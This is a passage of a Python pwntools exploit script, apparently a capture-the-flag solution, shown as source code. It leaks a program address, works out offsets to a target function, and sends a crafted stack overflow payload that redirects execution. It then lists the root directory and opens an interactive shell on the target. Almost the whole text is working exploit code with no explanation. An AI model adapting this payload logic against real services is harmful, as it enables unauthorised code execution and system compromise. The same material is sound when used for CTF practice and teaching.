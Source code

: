 ```python
    leakAddress = int(output.hex(), 16)
    log.info(f"Leak Address: {hex(leakAddress)}")

    sContract = 0x0000555555555343
    sMain = 0x555555555441
    sLeak = 0x555555555b50
    sSafeBuffer = 0x55555555802c
    offsetSafeBuffer = sSafeBuffer - sLeak
    offsetMain = sMain - sLeak
    offsetSContract = sContract - sLeak

    addrContract = leakAddress + offsetSContract
    addrSafeBuffer = leakAddress + offsetSafeBuffer
    addrMain = leakAddress + offsetMain

    log.info(f"Safe Buffer: {hex(addrSafeBuffer)}")
    log.info(f"Main: {hex(addrMain)}")
    log.info(f"Contract: {hex(addrContract)}")


    r.sendlineafter(b" is true and correct", b"4")


    sRip = 0x7ffdd9559e78
    sBuffer = 0x7ffdd9559e38
    offsetRip =  sRip - sBuffer # no this will zero out an address in the middle of the stack that has our values
    # payload = b"\x00"* offsetRip + b"B"
    # 0x28 until the address that will be put inside of rdx is reached
    payload = b"\x00"* 0x20
    payload += b"\x98" # this will be guessi
    payload += b"\x11"* 0x7
    payload += p64(addrContract)
    r.sendlineafter(b"u good at:", payload)

    sleep(0.5)
    r.sendlineafter(b"correct now", b"Yes")
    r.sendline(b"ls /")
    output = r.recv()
    if output != b"":
        print(output.decode())
        r.sendline(b"ls /")

    output = r.recv()
    if output != b"":
        print(output.decode())
    r.interactive()

if __name__ == "__main__":
    main()
```
